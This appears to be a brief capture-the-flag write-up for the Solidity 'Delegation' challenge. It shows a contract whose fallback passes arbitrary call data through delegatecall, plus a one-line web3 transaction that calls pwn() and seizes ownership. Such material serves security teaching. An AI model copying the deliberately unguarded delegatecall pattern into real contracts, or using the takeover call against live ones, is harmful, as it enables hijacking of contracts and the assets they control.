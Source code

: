 ## Delegation 🤓

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```


When the delegatecall function executes code in another contract, it uses caller context but executes code in another contract.

In this challenge all you have to do is use the fallback function and call pwn in Delegate await contract.sendTransaction({data:web3.utils.keccak256('pwn()')})